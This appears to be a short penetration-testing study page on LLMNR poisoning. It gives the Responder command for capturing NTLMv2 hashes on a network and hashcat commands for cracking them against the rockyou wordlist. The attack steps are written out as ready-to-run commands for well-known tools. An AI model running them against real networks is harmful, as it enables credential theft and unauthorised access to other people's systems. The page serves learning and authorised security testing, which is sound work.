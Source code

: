 # LLMNR Poisoning(needs an event)

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption><p>Example Attack</p></figcaption></figure>



## Capturing Hashes With Responder

```
sudo responder -I <interface eth0/tun0> -dwPv
```

make sure when u run this ;all the servers it prints are \[ON]

Example of us capturing an hash

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Copy those hashes into a text file(BEST WAY TO CRACK IS TO USE UR ORIGINAL OS(DOWNLOAD HASHCAT THERE AND USE UR GPU))

```
hashcat --help | grep NTLMv2
```

We see the module is 5600 for NTLMv2

```
hashcat -m 5600 <ur hashesh.txt> /usr/share/wordlists/rockyou.txt
```

IF already cracked

```
hashcat -m 5600 <ur hashesh.txt> /usr/share/wordlists/rockyou.txt --show
```
